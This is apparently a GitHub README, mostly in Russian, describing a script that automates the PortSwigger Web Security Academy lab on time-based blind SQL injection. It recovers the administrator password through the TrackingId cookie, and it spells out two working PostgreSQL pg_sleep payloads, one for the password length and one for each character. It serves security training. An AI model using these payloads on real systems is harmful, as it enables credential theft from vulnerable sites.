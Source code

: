 # Blind SQL injection with time delays and information retrieval
[RUS] Автоматизируем подбор blind sql, специально для Web_Security_Academy PortSwigger
Поиск  длинны пароля, а так же сам пароль от admin account .
И так, что мы имеем...
- Открытую уязвимость blind sql, проверка через подмену запроса (с содержанием печенек, в нашем случае на лабе, TrackingId=)

![изображение](https://user-images.githubusercontent.com/112577182/205280024-fd59c249-ed4e-4d84-b79c-851da865f73c.png)

- Все действия можно проводить в BurpSuite, но так как I dont have enough money for Burp Suite Edition
решено написать скрипт. Чтобы не переберать всё руками и наконец-то solved this f&c&k lab.

- Наша задача отсечь все ответы, которые после get запроса на сайт будут отвечать сразу же, так как в нашем случае иньекция использует pg_sleep(10)

Injection: 
1) Длинна пароля: '%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
2) Пароль: '%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
